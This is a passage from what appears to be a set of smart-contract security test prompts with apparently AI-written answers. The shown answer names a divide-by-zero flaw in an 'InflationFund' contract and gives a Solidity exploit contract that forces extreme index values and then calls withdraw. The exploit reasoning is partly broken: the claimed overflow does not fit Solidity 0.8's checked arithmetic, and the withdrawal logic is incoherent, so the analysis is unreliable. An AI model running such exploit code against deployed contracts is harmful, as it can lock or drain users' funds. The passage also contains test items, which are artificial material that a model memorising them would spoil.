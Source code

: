 Divide by Zero Error: In the deposit function, if the value of inflationIndex is zero, then calculating toAdd = msg.value / inflationIndex will lead to a divide by zero error.

Below is a Proof of Concept (PoC) written in Solidity language for these potential vulnerabilities:

 

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
contract InflationFundExploit {
    InflationFund public fund;
 
    constructor(address _fundAddress) {
        fund = InflationFund(_fundAddress);
    }
 
    // Exploit: Integer overflow
    function overflowExploit() external payable {
        // Set newIndex to a large value causing an integer overflow
        uint256 newIndex = 2**256 - 1;
        fund.updateIndex(newIndex);
        fund.deposit();
    }
 
    // Exploit: Divide by zero
    function divideByZeroExploit() external payable {
        // Set inflationIndex to zero
        fund.updateIndex(0);
        fund.deposit();
    }
 
    // Withdraw ethers from the fund
    function withdrawFunds() external {
        fund.withdraw(address(this).balance);
    }
 
    // Fallback function to receive ethers
    fallback() external payable {}
}
 
```



Please note that the code above is for demonstration purposes only. To ensure safety, please do not use or attempt any malicious actions in a live environment.

### Test8

#### Prompt：

Is there any vulnerability in the following smart contract? If there is, write a Solidity-based proof of concept(PoC):
